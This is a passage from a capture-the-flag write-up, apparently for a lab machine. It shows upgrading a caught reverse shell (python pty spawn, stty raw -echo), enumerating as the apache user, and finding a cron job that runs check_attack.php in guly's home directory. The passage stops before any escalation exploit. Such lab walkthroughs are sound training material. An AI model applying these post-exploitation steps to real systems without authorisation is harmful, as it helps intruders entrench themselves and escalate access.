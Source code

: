 We get a shell! Let’s upgrade it to a better shell.

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```text
export TERM=xterm
```

Unfortunately, we’re running as the web daemon user _apache_ and we don’t have privileges to view the user.txt flag. Therefore, we need to escalate our privileges.

## Privilege Escalation <a id="eb18"></a>

The _user.txt_ flag is in the home directory of the user _guly_. So we’ll either have to escalate our privileges to _guly_ or _root_.

I ran the _LinEnum.sh_ and _pspy64_ programs but didn’t find anything unusual. I did notice that in the home directory of _guly_ there’s a php script and a crontab file. We have read permission on both of them.

```text
bash-4.2$ ls -la
total 28
drwxr-xr-x. 2 guly guly 159 Jul  9  2019 .
drwxr-xr-x. 3 root root  18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root   9 Jul  2  2019 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly  18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly 193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly 231 Oct 30  2018 .bashrc
-rw-------  1 guly guly 639 Jul  9  2019 .viminfo
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly  33 Oct 30  2018 user.txt
```

View the content of crontab.guly.

```text
bash-4.2$ cat crontab.guly 
*/3 * * * * php /home/guly/check_attack.php
```

It’s running the _file check\_attack.php_ script every 3 minutes. If you’re not familiar with the crontab format, refer to the following [link](https://www.netiq.com/documentation/cloud-manager-2-5/ncm-reference/data/bexyssf.html).
